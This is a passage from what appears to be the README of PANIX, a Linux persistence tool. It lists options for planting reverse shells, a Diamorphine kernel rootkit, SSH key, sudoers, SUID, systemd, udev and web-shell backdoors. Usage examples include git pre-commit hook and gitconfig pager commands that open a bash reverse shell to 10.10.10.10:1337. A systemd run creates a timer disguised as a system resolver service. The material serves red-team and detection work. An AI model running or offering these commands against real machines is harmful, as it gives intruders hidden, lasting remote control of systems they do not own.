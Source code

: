 ```
  --password-change      Change user password
  --rc-local             Run Control (rc.local) persistence
  --reverse-shell        Reverse shell persistence (supports multiple LOLBins)"
  --rootkit              Diamorphine (LKM) rootkit persistence 
  --shell-profile        Shell profile persistence
  --ssh-key              SSH key persistence
  --sudoers              Sudoers persistence
  --suid                 SUID persistence
  --system-binary        System binary persistence
  --systemd              Systemd service persistence
  --udev                 Udev (driver) persistence
  --web-shell            Web shell persistence (PHP/Python)
  --xdg                  XDG autostart persistence
  --revert               Revert changes made by PANIX' default options
  --mitre-matrix         Display the MITRE ATT&CK Matrix for PANIX
  --quiet (-q)           Quiet mode (no banner)
```

![](https://i.imgur.com/waxVImv.png)

# Examples
The script should be largely self-explanatory, however, this section will show a few examples of how to work with PANIX.

Every persistence mechanism has a separate help menu:

```
ruben@ubuntu2204:~$ sudo ./panix.sh --udev --help
Usage: ./panix.sh --udev [OPTIONS]
--examples                              Display command examples
-default                               Use default udev settings
  --ip <ip>                               Specify IP address
  --port <port>                           Specify port number
  --sedexp | --at | --cron | --systemd    Specify the mechanism to use
--custom                                Use custom udev settings
  --command <command>                     Specify custom command
  --path <path>                           Specify custom path
--help|-h                               Show this help message
```

Every persistence mechanism also has an `--examples` flag that shows default and custom examples, aiding in crafting the command that works for you.
```
ruben@ubuntu2204:~$ ./panix.sh --git --examples
Examples:
--default:
./panix.sh --git --default --ip 10.10.10.10 --port 1337 --hook|--pager

--custom:
./panix.sh --git --custom --command "(nohup setsid /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > /dev/null 2>&1 &) &" --path "gitdir/.git/hooks/pre-commit" --hook

./panix.sh --git --custom --command "nohup setsid /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > /dev/null 2>&1 & ${PAGER:-less}" --path "~/.gitconfig --pager"
```
Most of the persistence mechanisms are very simple, and will (hopefully) not require much explanation. For example, systemd persistence can be set up simply through executing:
```
ruben@ubuntu2204:~$ sudo ./panix.sh --systemd --default --ip 10.10.10.10 --port 1337
Service file created successfully!
Timer file created successfully!
Created symlink /etc/systemd/system/timers.target.wants/dbus-org.freedesktop.resolved.timer → /usr/local/lib/systemd/system/dbus-org.freedesktop.resolved.timer.
[+] Systemd service persistence established!
```